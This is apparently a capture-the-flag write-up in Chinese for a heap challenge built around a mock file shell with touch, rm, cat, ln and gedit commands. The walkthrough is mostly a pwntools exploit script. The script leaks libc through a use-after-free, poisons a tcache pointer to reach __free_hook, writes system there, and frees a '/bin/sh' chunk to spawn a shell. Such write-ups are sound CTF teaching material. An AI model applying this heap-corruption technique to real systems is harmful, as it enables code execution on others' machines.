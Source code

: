 ## wp

#### ln+cat UAF通过unsortedbin泄露libc，再用libcsearcher查到freehook的地址，将tcache的fd改成freehook后，利用ln+gedit任意写，写system到freehook中，最后free拿到shell

![image-20230311143951005](image-20230311143951005.png)

`def add(name,context):

  send_text = f'touch {name}'

  r**.**sendline(send_text**.**encode())

  r**.**sendline(context)



def delete(name):

  send_text = f'rm {name}'

  r**.**sendline(send_text**.**encode())



def show(name):

  send_text = f'cat {name}'

  r**.**sendline(send_text**.**encode())

  

def ln(name1,name2):

  send_text = f'ln {name1} {name2}'

  r**.**sendline(send_text**.**encode())

def edit(name,context):

  send_text = f'gedit {name}'

  r**.**sendline(send_text**.**encode())

  r**.**sendline(context)



for i in range(9):

  add(i,str(i)**.**encode())

ln(6,'bye')

ln(7,'hi')

for i in range(8):

  delete(i)

show('hi')



main_arena_addr = u64(r**.**recvuntil(b'\x7f')[-6:]**.**ljust(8,b'\x00')) - 96

malloc_hook_addr = main_arena_addr - 0x10

libc=LibcSearcher('__malloc_hook',malloc_hook_addr)

offset = malloc_hook_addr - libc**.**dump('__malloc_hook')

system_addr = offset + libc**.**dump('system')

free_hook = offset + libc**.**dump('__free_hook')

edit('bye',p64(free_hook))#*UAF 把tcache[6]中的next指针覆写为free_hook_addr*

add(9,b'') #*9为从tcache申请的chunk*

add(10,b'') #*10为 malloc返回的free_hook的指针*

edit(9,b'/bin/sh\x00') 

edit(10,p64(system_addr))#*向free_hook中写入system地址*

delete(9)

r**.**interactive()`